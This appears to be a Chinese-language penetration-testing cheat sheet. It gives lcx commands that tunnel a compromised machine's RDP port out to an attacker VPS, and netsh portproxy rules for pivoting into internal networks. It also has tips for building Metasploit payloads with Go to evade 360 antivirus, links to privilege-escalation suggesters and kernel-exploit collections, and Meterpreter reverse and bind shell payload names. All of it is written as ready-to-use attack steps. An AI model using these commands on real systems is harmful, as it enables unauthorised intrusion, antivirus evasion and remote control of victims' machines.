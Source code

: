 > ### lcx
>
> 被攻击机 
>
> > lcx.exe -slave 139.1.2.3 8888 10.48.128.25 3389
>
> vps    
>
> > lcx.exe –listen 8888 5555
>
> 在本机 mstsc 登陆 139.1.2.3:5555 或在 vps 连接 127.0.0.1:5555
>
> ### netsh win自带(只支持 tcp )360 拦
>
> 将本地80转到192.168.1.101:8080端口
>
> > netsh interface portproxy add v4tov4 listenport=80 connectaddress=192.168.1.101 connectport=8080
>
> 通过连接1.1.1.101的8082端口，相当连接1.1.1.101可访问的内网192.168.2.102的3389端口
>
> > netsh interface portproxy add v4tov4 listenaddress=1.1.1.101 listenport=8082 connectaddress=192.168.2.102 connectport=3389
>
> ### go+msf & py+msf bypass360
>
> msf 编码生成后，用:
>
> > go build -ldflags="-H windowsgui -s -w" 
>
> 即可，详细参考以下 link
>
> > http://lu4n.com/metasploit-payload-bypass-av-note/
> >
> > http://hacktech.cn/2017/04/20/msf-AntiVirus.html
>
> ### 提权
>
> win 提权辅助工具，原理主要通过 systeminfo 补丁信息比对漏洞库, 工具链接 
>
> > https://github.com/GDSSecurity/Windows-Exploit-Suggester/
>
> linux 提权辅助
>
> > https://github.com/jondonas/linux-exploit-suggester-2
>
> 感谢前辈收集的提权 exp:
>
> windows-kernel-exploits Windows 平台提权漏洞集合
>
> > https://github.com/SecWiki/windows-kernel-exploits
>
> linux-kernel-exploits Linux 平台提权漏洞集合
>
> > https://github.com/SecWiki/linux-kernel-exploits
>
> ### msf
>
> linux 相关 payload：
>
> > linux/x86/meterpreter/reverse_tcp
> >
> > linux/x86/meterpreter/bind_tcp
> >